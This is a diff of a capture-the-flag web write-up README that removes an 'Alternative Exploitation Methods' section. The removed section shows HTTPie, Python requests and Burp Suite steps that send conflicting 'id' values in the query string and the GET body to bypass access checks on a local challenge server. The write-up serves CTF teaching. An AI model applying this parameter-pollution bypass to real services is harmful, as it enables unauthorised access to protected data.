

Before and after one commit to Rayene9052/Pioneers25CTF-Web-Writeups, a Markdown page: Web_Challenges/Tabi3a_Jemila/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
web challs

````diff
--- a/Web_Challenges/Tabi3a_Jemila/README.md
+++ b/Web_Challenges/Tabi3a_Jemila/README.md
@@ -160,40 +160,7 @@ curl -X GET "http://localhost:3999/flower?id=3" -d "id=1"
 
 🎉 **Flag captured!**
 
----
 
-## Alternative Exploitation Methods
-
-### Using HTTPie
-
-```bash
-http GET "http://localhost:3999/flower?id=3" id=1
-```
-
-### Using Python Requests
-
-```python
-import requests
-
-response = requests.get(
-    "http://localhost:3999/flower",
-    params={"id": "3"},  # Query parameter
-    data={"id": "1"}     # Body parameter
-)
-
-print(response.json())
-```
-
-### Using Burp Suite / Browser DevTools
-
-1. Intercept a normal request to `/flower?id=3`
-2. Change method to GET (if needed)
-3. Add a body with `Content-Type: application/x-www-form-urlencoded`
-4. Set body content to `id=1`
-5. Keep query string as `?id=3`
-6. Forward the request
-
----
 
 ## Understanding the Source Code Vulnerabilities
 
````
